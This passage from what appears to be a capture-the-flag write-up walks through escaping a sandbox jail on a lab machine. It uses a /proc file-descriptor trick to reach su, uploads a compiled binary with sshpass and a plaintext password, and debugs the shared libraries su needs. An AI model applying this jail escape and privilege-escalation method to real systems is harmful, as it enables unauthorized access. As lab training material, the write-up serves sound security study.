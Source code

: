 Very much like the original exploit, except this time instead of reading a file, I’ll use `popen` to run a process, and I’ll use the `/proc` trick to get `su` from outside the jail. This time I don’t have to worry about seeing the results through the `log` file, so I’ll just print the results to the screen.

I’ll compile this and upload it to Scanned:

```

oxdf@hacky$ gcc runsu.c -o runsu
oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp runsu clarence@10.10.11.141:/dev/shm

```

#### Run It

If I run this via `sandbox`, it reports that it can’t find `libpam.so.0`:

```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a 
/proc/1/fd/3/../../../../../../../usr/bin/su: error while loading shared libraries: libpam.so.0: cannot open shared object file: No such file or directory
Exited
Kill err: (3)

```

This is the first of several imports that are required. These imports are not required by my binary:

```

clarence@scanned:/var/www/malscanner/sandbox$ ldd /dev/shm/runsu 
        linux-vdso.so.1 (0x00007ffdaa7fc000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5e6b3b6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5e6b587000)

```

`linux-vdso.so.1` is a virtual file that’s not on the disk, but [actually part of the kernel](https://stackoverflow.com/questions/58657036/where-is-linux-vdso-so-1-present-on-the-file-system). `libc.so.6` and `ld-linux-x86-64.so.2` were the two files copied into the jail.

Looking at `su`, it requires more (the first being `libpam.so.0` which is where it’s failing):

```

clarence@scanned:/var/www/malscanner/sandbox$ ldd /usr/bin/su
        linux-vdso.so.1 (0x00007ffff6cb3000)
        libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007f83c279e000)
        libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007f83c2799000)
        libutil.so.1 => /lib/x86_64-linux-gnu/libutil.so.1 (0x00007f83c2794000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f83c25cf000)
        libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007f83c259e000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f83c2598000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f83c27ca000)
        libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007f83c258e000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f83c256c000)

```
